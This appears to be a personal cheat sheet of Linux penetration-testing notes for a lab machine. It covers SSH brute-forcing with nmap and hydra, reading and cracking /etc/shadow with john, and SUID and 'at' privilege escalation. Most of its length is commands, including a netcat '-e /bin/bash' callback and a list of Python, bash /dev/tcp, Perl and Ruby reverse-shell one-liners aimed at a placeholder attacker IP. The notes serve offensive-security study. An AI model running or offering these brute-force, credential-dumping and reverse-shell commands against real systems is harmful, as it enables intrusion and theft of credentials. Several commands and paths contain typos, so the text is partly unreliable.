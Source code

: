 #Linux Exploitation
```bash
nmap 2.0.0.22 target 1(metasploit)
```
- target 1 - port 22 ssh open

Lets try brutforce login
```bash
nmap 2.0.0.22 -p 22 --script ssh-brute
```
- After sucessfull passowrd cracking login with the crdentials
```bash
ssh administrator@2.0.0.22
whoami
id if uid=1001 - secondory regular user so 1000 is regular user
cat /etc/password - you can find the other users
```

Horizontal escalation
-------------------------------
since we know the user name lets try the password attack
```bash
hydra -l marlinspike -P /usr/share/wordlists/john/lst 2.0.0.22 ssh -e nsr -t 4
```

- anothe way to know the password is
```bash
cat /etc/shadow - contails passowrd hashes
```
- copy the hashes in a file in kali and try john
```bash
nano hash.txt
john hash.txt
# for the already cracked hashes
john --show hash.txt
```
check weather the /etc/password and /etc/shadow are having write permissions

-To find the suid files
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
- if the linux machine is having **nmap** installed in suid file then we can use it to escalate the privileges
```bash
nmap --interactive
nmap> ! cat /etc/shadow
nmap> ! cat /etc/passwd
nmap> ! nc <kali IP> 1234 -e /bin/bash

```
- In kali machine run a netcat listener

```bash
nc -lvp 1234    
```
- GTFOBINS is helpful to find the suid files and how to use them to escalate the privileges
Gtfobins link: https://gtfobins.github.io/

- if there is any error while connecting try this 
```bash
kali-tweaks
```
- This box will opens now select **Hardining** then enable **SSH CLIENT** then click on **Apply**  button 

<img src="image-1.png" alt="alt text" width="400"/>
<img src="image-2.png" alt="alt text" width="400"/>
<img src="image-3.png" alt="alt text" width="400"/>

- if you are able to see the ALL in the **sudo -l** then you can run any command with sudo

```bash
sudo -l
```
- if you are able to see the ALL in the **sudo -i** 

```bash
sudo -i
```
```bash
sudo -i
```
- if you see the **at**  try this

```bash
COMMAND="id > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

COMMAND="cat /etc/shadow > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

or you can try bellow command

echo "whoami > hi.txt" | at now
cat hi.txt
```
## Kernel Vulnerabilities and Application Vulnerabilities

- To list all the packages installed in the linux machine

```bash
apt list --installed
dpkg --list
dpkg -l
dpkg -l | grep -v '^ii  lib'
apt list --installed | grep -v '^lib'
ls /usr/share/applications/
```
- If you don't have proper shell then try this command if it having python or bash or sh

```bash
python -c 'import pty; pty.spawn("/bin/bash");'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' - **For Reverse Shell**
python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);' - **For Reverse Shell**
sh -i
bash -i
bash -i >& /dev/tcp/<kali IP>/1234 0>&1 - **For Reverse Shell**
sh -i >& /dev/tcp/<kali IP>/1234 0>&1 - **For Reverse Shell**
perl -e 'exec "/bin/bash";'
perl -e 'use Socket;$i="<attacker_ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' - **For Reverse Shell**
ruby -e 'exec "/bin/bash"'
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<attacker_ip>",<port>);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' - **For Reverse Shell**
```
-  **where is <anything you want>** will help you to find the location of the file or command in the linux machine
```bash
whereis <anything you want>
```
- If you want to share a file from kali to linux or any other manchine(windows/linux) then you can start **python Http Server**
```bash
python3 -m http.server 80
```
- If you want to download a file from the kali linux to any other machine then you can use **wget** or **curl**
```bash
wget <http://<kali linux IP>/file_name>
curl <http://<kali linux IP>/file_name> -o <file_name>
```

- If you see **Screen-4.5.0** installed in the linux machine then you can use it to escalate the privileges
```bash
screen -ls
screen -r <session_id>
```
